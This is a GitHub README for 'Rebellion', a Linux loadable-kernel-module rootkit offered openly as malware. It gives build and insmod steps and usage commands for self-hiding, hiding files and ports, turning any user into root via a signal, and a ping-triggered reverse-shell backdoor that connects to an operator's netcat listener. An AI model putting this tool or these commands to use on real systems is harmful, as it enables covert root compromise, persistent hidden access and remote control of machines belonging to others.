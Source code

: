 <h1 align="center">「⚔️」 About Rebellion</h1>

<p align="center"><img src="assets/banner.png"></p>

Rebellion is a sophisticated rootkit malware developed specifically for operating systems based on the Linux kernel in the x86 and x86_64 architecture in its 5.x/6.x versions. Rebellion has several features such as self hide/unhide, hide folder/file, hide TCP/UDP port, turning low-privilege users into root and backdoor via ping.

**Note**: Currently, the rootkit is going through a beta phase, where bugs, compilation failures, problems with architectures can be found. I ask that you collaborate with the development of the project to avoid as many problems as possible.

## Features
### Self hide/unhide
Rebellion has the ability to hide/unhide in the system using the `kill -12 0` command.

### Hide folder/file
Rebellion allows you to hide files and directories from a magic prefix defined as `reb_` (`config.h`).
Ex.: `reb_operations/`, `reb_backdoor.elf`.

### Hide TCP/UDP port
Rebellion allows you to hide a TCP/UDP port on your system. The port is defined in the `config.h` file in the `HIDE_PORT` macro.
**Note**: Only works for `netstat` and `lsof` commands. This is a part that is still under development.

### User2Root
When running the `kill -10 0` command with a low-privilege user, Rebellion adds their privileges to `0`, making them a user with `root` permissions on the system.

### Backdoor via ping
Rebellion has a feature that allows you to receive a reverse shell via `netcat` (it is important that it is installed) by sending an ICMP packet via `ping` to your IP and port defined in the `config.h` file in the macros `YOUR_SRV_IP` and `YOUR_SRV_PORT`.

* Self hide/unhide
* Hide folder/file
* Hide TCP/UDP port
* User2Root
* Backdoor via ping

## Tested Kernel Versions
| Distro | Kernel Details |
| ----------- | ----------- |
| Debian GNU/Linux 12 (bookworm) | 6.1.0-32-amd64 (2025-03-06) x86_64 GNU/Linux |
| Ubuntu 22.04 (Jammy Jellyfish) | 5.15.0-25-generic Mar 30 15:54:22 UTC 2022 x86_64 GNU/Linux |

## Build & Run
```
git clone https://github.com/brosck/Rebellion
cd Rebellion
# edit config.h file
make
sudo insmod rebellion.ko
```

## Usage
### Self hide/unhide
```
kill -12 0
```

### Hide folder/file
```
mkdir reb_operations
cd reb_operations
echo test > reb_test.txt
```

### Hide TCP/UDP port
```
# edit HIDE_PORT macro in config.h
netstat -tunlp | grep 1234
```

### User2Root
```
kill -10 0
```

### Backdoor via ping
Target machine:
```
# edit YOUR_SRV_IP and YOUR_SRV_PORT macro in config.h and start LKM
```

Your machine (1º terminal):
```
nc -lnvp 1234
```

Your machine (2º terminal):
```
sudo ping -c 1 <TARGET IP>
```

## Bugs and Improvements
If you have any suggestions for improvements or want to report a bug, feel free to create and report an [issue](https://github.com/brosck/Rebellion/issues) or [pull request](https://github.com/brosck/Rebellion/issues), the aim is always to improve the tool with different features.

